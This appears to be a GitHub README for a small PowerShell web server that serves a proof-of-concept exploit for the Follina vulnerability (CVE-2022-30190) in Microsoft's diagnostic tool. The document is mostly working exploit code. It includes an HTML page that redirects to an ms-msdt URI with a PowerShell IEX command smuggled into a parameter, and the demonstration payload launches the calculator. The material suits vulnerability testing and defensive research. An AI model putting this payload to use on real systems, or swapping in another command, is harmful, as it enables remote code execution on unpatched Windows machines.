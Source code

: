 # Follina Web Server

Simple PowerShell web server to assist in POC Follina testing by popping calc. 
When running, by default URL can be accessed via: http://localhost:8081/payload.html

References:

https://github.com/JMousqueton/PoC-CVE-2022-30190 - Good resource on creating your own POC

https://community.idera.com/database-tools/powershell/powertips/b/tips/posts/creating-powershell-web-server - Base code for powershell web server


```powershell
# enter this URL to reach PowerShell's web server
$url = 'http://localhost:8081/'

# HTML content for some URLs entered by the user
$htmlcontents = @{
############# GET /payload.html (to pop calc)
"GET /payload.html"  =  @'    
<!doctype html>
<html lang="en">
<body>
<script>
//AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA should be repeated >60 times
  window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
</script>

</body>
</html>
'@;
############# GET / (Root)
'GET /' = @'   
<!doctype html>
<html lang="en">
<body>
Webserver OK
</body>
</html>
'@
}

# -------------------------------------
# start web server
$listener = New-Object System.Net.HttpListener
$listener.Prefixes.Add($url)
$listener.Start()

try
{
  while ($listener.IsListening) {  
    # process received request
    $context = $listener.GetContext()
    $Request = $context.Request
    $Response = $context.Response

    $received = '{0} {1}' -f $Request.httpmethod, $Request.url.localpath
    
    # is there HTML content for this URL?
    $html = $htmlcontents[$received]
    if ($html -eq $null) {
      $Response.statuscode = 404
      $html = 'Oops, the page is not available!'
    } 

    Write-Output "Receiving request for $received"
    # return the HTML to the caller
    if ($Request.httpmethod -ne "HEAD") {        
        $buffer = [Text.Encoding]::UTF8.GetBytes($html)
    } else {
        $buffer = ""
    }
    $Response.ContentLength64 = $buffer.length
    $Response.OutputStream.Write($buffer, 0, $buffer.length)

    
    $Response.Close()
  }
}
finally
{
  $listener.Stop()
}
```


